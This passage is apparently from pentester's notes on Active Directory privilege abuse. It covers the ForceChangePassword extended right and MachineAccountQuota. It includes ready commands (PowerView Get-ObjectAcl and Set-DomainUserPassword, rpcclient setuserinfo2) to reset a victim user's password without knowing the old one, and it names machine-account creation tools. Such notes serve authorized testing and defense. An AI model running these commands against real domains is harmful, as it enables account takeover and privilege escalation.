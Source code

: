 
##### DACL Edit python script
- https://github.com/fortra/impacket/pull/1291/files#diff-9648ed41f85733cdf640836e6166cb9dfd8f6c2e967491da2b516bbd2aac9989
  
#####  ForceChangePassword
- https://docs.microsoft.com/en-us/windows/win32/adschema/r-user-force-change-password
If we have *ExtendedRight* on *User-Force-Change-Password* object type, we can reset the user's password without knowing their current password.  

Returns the ACLs associated with jdoe user in DOMAIN.local domain and resolve GUIDs to their display names
```
Get-ObjectAcl -SamAccountName delegate -ResolveGUIDs | ? {$_.IdentityReference -eq "DOMAIN.local\jdoe"}

```

```
. .\PowerView.ps1
Set-DomainUserPassword -Identity User -Verbose
```

Using *rpcclient*
```
rpcclient -U jdoe 10.10.10.192
setuserinfo2 victimUser 23 'Pass123!'
```

### MachineAccountQuota (MAQ)
- https://www.netspi.com/blog/technical/network-penetration-testing/machineaccountquota-is-useful-sometimes/
- https://github.com/Kevin-Robertson/Powermad
> MachineAccountQuota (MAQ) is a **domain level attribute** that by default permits unprivileged users to attach up to **10** computers to an Active Directory (AD) domain

Various tools exist which can create a machine account from the command line or from an implant such as **StandIn**, **SharpMad** and **PowerMad**.  

- Machine accounts created through MAQ are placed into the Domain Computers group
--> In situations where the Domain Computers group has been granted extra privilege, it’s important to remember that this privilege also extends to unprivileged users through MAQ.  

- The creator account is granted write access to some machine account object attributes. Normally, this includes the following attributes:

1. AccountDisabled
2. description
3. displayName
4. DnsHostName
5. ServicePrincipalName
6. userParameters
7. userAccountControl
8. msDS-AdditionalDnsHostName
9. msDS-AllowedToActOnBehalfOfOtherIdentity
10. samAccountName
